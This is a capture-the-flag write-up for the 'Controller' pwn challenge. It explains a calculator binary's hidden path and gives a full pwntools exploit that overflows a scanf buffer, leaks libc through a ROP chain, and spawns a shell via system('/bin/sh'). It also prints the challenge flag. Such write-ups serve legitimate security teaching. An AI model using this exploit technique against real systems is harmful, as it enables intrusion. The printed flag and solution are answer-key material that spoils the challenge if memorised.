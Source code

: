 # Controller

## Challenge

We're given a binary that runs a command line calculator application and a libc file.

The calculator offers 4 operations: addition, subtraction, multiplication, and division.

## Solution

In the `calculator` function, we can see that an output of 0xff3a will result in a special path.

```c
void sym.calculator(void)
{
    int64_t var_20h;
    uint32_t var_4h;
    
    var_4h = sym.calc();
    if (var_4h == 0xff3a) {
        sym.printstr("Something odd happened!\nDo you want to report the problem?\n> ");
        sym.imp.__isoc99_scanf(0x4013e6, &var_20h);
        if (((char)var_20h == *(char *)0x4013e9) || ((char)var_20h == *(char *)0x4013eb)) {
            sym.printstr((char *)0x4013ed);
        } else {
            sym.printstr("Problem ingored\n");
        }
    } else {
        sym.calculator();
    }
    return;
}
```

However, the inputs must be less than or equal to 0x45:

```c
var_8h = sym.menu();
if ((0x45 < (int32_t)var_10h._4_4_) || (0x45 < (int32_t)(uint32_t)var_10h)) {
    sym.printstr("We cannot use these many resources at once!\n");
    sym.imp.exit();
}
```

The intended solution appears to be an integer overflow (see the flag), but the simpler method is to subtract a negative number, which is essentially addition.

```py
io.recvuntil(":")
io.sendline("0 -65338")

io.recvuntil(">")
io.sendline("2")
```

This will subtract -65338 (-0xff3a) from 0.
The result of this operation is 65338 (0xff3a).

We now have a call to `__isoc99_scanf` which we can use to perform a standard buffer overflow:

```c
sym.printstr("Something odd happened!\nDo you want to report the problem?\n> ");
sym.imp.__isoc99_scanf(0x4013e6, &var_20h);
if (((char)var_20h == *(char *)0x4013e9) || ((char)var_20h == *(char *)0x4013eb)) {
    sym.printstr((char *)0x4013ed);
} else {
    sym.printstr("Problem ingored\n");
}
```

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 controller
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('controller')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.recvuntil(":")
io.sendline("0 -65338")

io.recvuntil(">")
io.sendline("2")

calculator = exe.sym["calculator"]
puts_got = exe.got["puts"]
puts_plt = exe.plt["puts"]

rop = ROP(exe)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

io.recvuntil("problem?")
payload = flat({
    0:"Y",
    0x20 + 8:[
        pop_rdi,
        puts_got,
        puts_plt,
        calculator,
        ]
    })

io.sendline(payload)

io.recvuntil("!")
io.recvline()

libc.address = u64(io.recvline()[:-1].ljust(8,'\x00')) - libc.sym["puts"]
io.success(hex(libc.address))

io.recvuntil(":")
io.sendline("0 -65338")

io.recvuntil(">")
io.sendline("2")

bin_sh = next(libc.search("/bin/sh"))
system = libc.sym["system"]

payload = flat({
    0:"Y",
    0x20 + 8:[
        ret,
        pop_rdi,
        bin_sh,
        system,
        ]
    })

io.sendline(payload)

io.interactive()
```

## Flag

`CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}`

